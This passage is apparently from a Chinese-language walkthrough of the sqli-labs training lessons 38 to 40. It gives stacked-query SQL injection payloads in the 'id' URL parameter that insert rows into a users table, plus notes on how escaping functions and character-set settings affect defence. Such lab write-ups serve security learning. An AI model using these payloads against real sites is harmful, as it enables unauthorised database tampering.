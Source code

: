 同34，区别在于处理post内容用的是mysql_real_escape_string()函数，而不是addslashes()函数，



Summary:

从上面的几关当中，可以总结一下过滤 ' \ 常用的三种方式是使用preg_replace()直接replace，addslashes()，mysql_real_escape_string()。三种方式仅仅依靠一个函数是不能完全防御的，所以我们在编写代码的时候需要考虑的更加仔细。同时在上述过程中，我们也给出三种防御的方式：

- 使用preg_replace()直接replace时，不要将mysql编码设置为gbk。
- 使用addslashes()时，我们需要将mysql_query设置为binary的方式，才能防御此漏洞
- 使用mysql_real_escape_string()时，需要将mysql设置为gbk即可。



## 0X2ALess-38

user表中数据

![image-20201111170407936](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111170407936.png)

?id=1';insert into users(id,username,password) values ('38','less38','hello')--+

![image-20201111170520545](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111170520545.png)

执行后再次查看，插入了less38的用户

![image-20201111170618202](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111170618202.png)

## 0X2BLess-39

和less-38的区别在于sql语句的不一样：SELECT * FROM users WHERE id=$id LIMIT 0,1

也就是数字型注入，我们可以构造以下的payload：

?id=1;insert into users(id,username,password) values ('39','less39','hello')--+

![image-20201111171043638](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111171043638.png)

查看数据库 已插入less39 数据

![image-20201111171104637](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111171104637.png)

## 0X2CLess-40

本关的sql语句为SELECT * FROM users WHERE id=('$id') LIMIT 0,1

我们根据sql语句构造以下的payload：

?id=1');insert into users(id,username,password) values ('40','less40','hello')--+

![image-20201111171618000](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111171618000.png)

![image-20201111171633472](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111171633472.png)


